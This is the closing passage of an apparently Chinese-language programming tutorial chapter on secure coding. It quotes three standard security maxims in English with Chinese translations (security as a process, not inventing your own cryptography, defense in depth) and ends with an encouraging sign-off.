> **Security is not a product, but a process.**
> 安全不是一种产品，而是一个过程。
>
> **Don't roll your own crypto.**
> 不要自己发明加密算法。
>
> **Defense in depth.**
> 纵深防御——不要依赖单一安全措施。

记住，最好的安全措施是在攻击发生之前就做好防御。希望这一章能帮助你写出更安全的代码，让黑客们找不到饭吃！

> 🎭 **本章完**：恭喜你完成了安全修炼的第一课，但真正的安全之道还在于——永远保持警惕，永远学习，永远更新！
